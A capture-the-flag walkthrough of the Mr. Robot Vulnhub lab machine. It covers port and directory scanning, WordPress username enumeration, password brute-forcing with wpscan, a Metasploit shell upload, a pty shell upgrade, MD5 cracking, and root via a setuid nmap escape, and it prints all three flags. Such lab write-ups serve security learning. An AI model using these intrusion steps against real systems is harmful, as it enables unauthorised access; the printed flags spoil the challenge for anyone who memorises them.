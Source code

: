 # Mr. Robot Vulnhub Writeup

[Vulnhub Link](https://www.vulnhub.com/entry/mr-robot-1,151/)

### Key 1

---

First we nmap scan the box for any open ports and services

`nmap -sC -sV -oA nmap_scans/init_scan 10.0.0.63` and we get the following

```bash
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```

pretty standard stuff, so we check out the web page and there's some Mr. Robot related hacker text and a prompt with nothing in particular. Some classic enumeration techniques and we run a directory scan with ffuf (separate results file)

`ffuf -c -u "https://10.0.0.63/FUZZ" -w common.txt`

The three things we did find that are useful are robots.txt, phpmyadmin, and wp-admin, letting us know that wordpress is the back end CMS.

If we check the robots.txt page we are prompted with 2 files - `key-1-of-3.txt` txt (flag) and `fsocity.dic` (a dictionary file)
flag 1 - `073403c8a58a1f80d943455fb30724b9`

### Key 2

---

Directory scan shows a wordpress back end

Go to `/wp-admin` and put in the normal checks (root, admin, etc) and we all get the message `ERROR: Invalid username. Lost your password?`

Because the name of the box is Mr. Robot I tried the username `elliot` (the main character from the show). I would later find out that there's a page elsewhere on the website that holds the username encoded in base-64, but for this sake we can just call this an OSINT challenge

enter a random password and you would be shown a diff. message `ERROR: The password you entered for the username elliot is incorrect`

So now we know the user is `elliot`, and we have a dictionary we can use to find out the password. so let's use hydra to attack it

use wpscan to get password
`wpscan --url http://10.0.0.63 --enumerate p --enumerate t --enumerate u -P newpasslist.txt -U elliot`

returns - `[80][http-post-form] host: 10.0.0.63   login: elliot   password: ER28-0652`

There's a metasploit module for use to use - `exploit/unix/webapp/wp_admin_shell_upload`

set the options and run it to get a reverse shell

It's a basic tcp shell so let's use the python one-liner for a better experience

`python -c "import pty;pty.spawn('/bin/bash')"`

Now with a full bash shell go to `/home` and there's user  `robot` with file `key-2-of-3.txt` but we can't read it

There's a `password.raw-md5` in the same directory with the contents
`robot:c3fcd3d76192e4007dfb496cca67e13b` - md5 decodes to `abcdefghijklmnopqrstuvwxyz` using an online cracker
and we can login as user robot and get the second flag `su robot`
flag 2 - `822c73956184f694993bede3eb39f959`

### Key 3

---

download and run [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) from github - we can see that there's a program with a setuid bit and runs as root - `nmap`

go to [gtfobins.github.io](https://gtfobins.github.io/) and look and we can privesc easy with `nmap`

`nmap --interactive` and then `!sh` and we have spawned a root shell from nmap interactive terminal

`cd /root && cat key-3-of-3.txt` - `04787ddef27c3dee1ee161b21670b4e4`